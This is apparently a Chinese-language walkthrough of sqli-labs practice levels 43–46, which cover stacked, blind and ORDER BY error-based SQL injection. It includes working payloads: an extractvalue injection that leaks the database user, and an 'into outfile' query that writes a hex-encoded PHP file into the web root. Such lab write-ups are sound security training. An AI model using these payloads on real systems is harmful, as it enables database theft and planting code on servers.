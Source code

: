 ## less43 POST -Error based -String -Stacked with tiwst(POST型基于错误的堆叠变形字符型注入')闭合)

本关是一个登录页面，对密码处没有过滤，那么我们对密码处进行堆叠注入

## Less-44 - Stacked Query blind

同less-42关，只是关闭了报错

## less-45 (基于报错的password处的')闭合注入)

同less-43关，只是关闭了报错

## less-46 ORDER BY-Error-Numeric(排序处的报错注入)

我们按照他的规则，输入试试，发现是一个排序的表格

![img](assets/1666786880275-ee578936-8654-46c9-9a4c-facb66463171.png)

输如单引号也发现存在报错，那么我们肯定可以报错注入

既然是排序的表格，order by 后面虽然不能进行奇奇怪怪的union注入，但是可以进行desc/asc进行排序

那么我们可以尝试报错注入

```php
Less-46/?sort=(extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```

还可以使用时间注入、写入文件等

```php
?sort=1 into outfile "D:\\phpStudy\\WWW\\sqli-labs\\Less-46\\111.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e2020--+
```

我们使用十六进制来替代

```
<?php phphinfo();?>
```
